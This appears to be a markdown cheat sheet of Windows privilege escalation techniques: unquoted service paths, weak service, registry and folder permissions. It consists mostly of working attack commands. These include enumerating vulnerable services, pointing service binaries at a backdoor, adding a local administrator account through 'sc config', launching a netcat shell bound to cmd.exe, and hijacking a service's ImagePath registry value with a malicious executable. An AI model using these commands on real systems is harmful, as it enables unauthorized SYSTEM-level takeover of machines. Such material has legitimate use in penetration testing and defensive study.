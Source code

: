 ### Unquoted Service Path

Technically Unquoted Service Path vulnerability is caused by the CreateProcess function in Windows operating systems which may allow unprivileged loc users to modify the affected executable file as a system privilege in order to elevate their privileged from unprivilege to system privilged.

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
If you look at the registry entry for this service with Regedit you can see the ImagePath value is:

C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find:
```
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Program.exe
C:\Program Files (x86)\Program Folder\A.exe
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
```
If we can drop our malicious exe successfully on one of these paths, upon a restart of the service, Windows will run our exe as SYSTEM.In order to check the permissions of a folder
```
icacls "C:\WeakServices\Weak Service 1\service1.exe"
icacls "C:\WeakServices\Weak Service 1"
icacls "C:\Program Files (x86)\Program Folder"
icacls "C:\Program Files\Photodex\ProShow Producer\Scsiaccess.exe"
```

### Weak Service Permission



```
accesschk.exe -cv MeMe WeakService3
sc config WeakService3 binpath= "C:\Users\MeMe\Desktop\Backdoor.exe" 
sc config WeakService3 binpath= "net user MeMe MeMe@!@#123 /add" 
sc config WeakService3 binpath= "net localgroup Administrators MeMe /add" 

sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

```
### WEAK REGISTRY PERMISSIONS

```
accexxchk.exe -kvw MeMe HKLM\SYSTEM\CurrentControlSet\Services\

reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\WeakService4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\MeMe\Desktop\evilbinary.exe" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\WeakService4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\MeMe\Desktop\evilbinary.exe" /f

sc qc WeakService4
sc stop WeakService4
sc start WeakService4

```
### Weak Folder Permissions 
weak folder permissions granting any user full permission "Everyone: (F)" to the contents of the directory and it's sub-folders. In addition, the program installs a service called "KWSService" which runs as "Localsystem", this will allow any user to escalate privileges to "NT AUTHORITY\SYSTEM" by substituting the service's binary with a malicious one
```
icacls c:\kioware_com
C:\kioware_com Everyone:(OI)(CI)(F)
               NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
               BUILTIN\Administrators:(I)(OI)(CI)(F)
               BUILTIN\Users:(I)(OI)(CI)(RX)
               BUILTIN\Users:(I)(CI)(AD)
               BUILTIN\Users:(I)(CI)(WD)
               CREATOR OWNER:(I)(OI)(CI)(IO)(F)
sc qc KWSService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: KWSService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\kioware_com\KWSS.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : KWS Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem               

```
